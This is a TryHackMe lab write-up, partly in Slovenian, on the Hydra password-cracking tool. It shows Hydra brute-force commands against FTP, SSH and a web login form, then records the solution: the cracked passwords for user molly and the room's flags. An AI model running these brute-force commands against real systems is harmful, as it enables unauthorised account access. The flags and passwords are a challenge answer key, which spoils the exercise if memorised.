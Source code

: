 # Hydra
link: https://tryhackme.com/room/hydra

## Task 1 Hydra Introduction
Hydra je online brute force password cracking program.
For more information on the options of each protocol in Hydra, read the official Kali Hydra tool page: https://en.kali.tools/?p=220

## Task 2 Using Hydra 

### Hydra Commands

The options we pass into Hydra depends on which service (protocol) we're attacking. For example if we wanted to bruteforce FTP with the username being user and a password list being passlist.txt, we'd use the following command:

- hydra -l user -P passlist.txt ftp://10.10.220.75

### SSH
- hydra -l < username > -P < full path to pass > 10.10.220.75 -t 4 ssh

### Post Web Form

We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, or simply view the source code.

Below is an example Hydra command to brute force a POST login form:

- hydra -l < username > -P < wordlist > 10.10.220.75 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

Use Hydra to bruteforce molly's web password. What is flag 1?
- Uporabil sem: hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.220.75 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V 
- Dobil geslo: sunshine
- Flag: THM{2673a7dd116de68e85c48ec0b1f2612e}

Use Hydra to bruteforce molly's SSH password. What is flag 2?
- Uporabil: hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.220.75 -t 4 ssh
- Dobil geslo: butterfly
- Pognal ukaz: ssh molly@10.10.220.75 in se vpisal
- Flag: THM{c8eeb0468febbadea859baeb33b2541b}



